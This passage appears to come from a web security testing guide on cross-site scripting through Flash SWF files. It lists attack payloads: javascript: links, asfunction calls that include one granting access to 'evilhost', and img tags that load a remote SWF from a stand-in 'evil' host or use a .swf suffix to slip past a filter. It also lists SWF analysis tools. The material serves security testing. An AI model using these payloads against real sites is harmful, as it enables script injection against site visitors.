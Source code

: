 Some attack examples with `<a>` tag:

- Direct XSS: `<a href='javascript:alert(123)'>`
- Call a function: `<a href='asfunction:function,arg'>`
- Call SWF public functions: `<a href='asfunction:_root.obj.function, arg'>`
- Call native static as function: `<a href='asfunction:System.Security.allowDomain,evilhost'>`

An image tag could be used as well:

```html
<img src='http://evil/evil.swf'>
```

In this example, `.swf` is necessary to bypass the Flash Player internal filter:

```html
<img src='javascript:evilcode//.swf'>
```

Since the release of Flash Player 9.0.124.0, XSS is no longer exploitable, but GUI modification could still be accomplished.

The following tools may be helpful in working with SWF:

- [Adobe SWF Investigator](https://labs.adobe.com/technologies/swfinvestigator/)
- [OWASP SWFIntruder](https://wiki.owasp.org/index.php/Category:SWFIntruder)
- [Decompiler – Flare](http://www.nowrap.de/flare.html)
- [Disassembler – Flasm](http://flasm.sourceforge.net/)
- [Swfmill – Convert Swf to XML and vice versa](https://www.swfmill.org/)
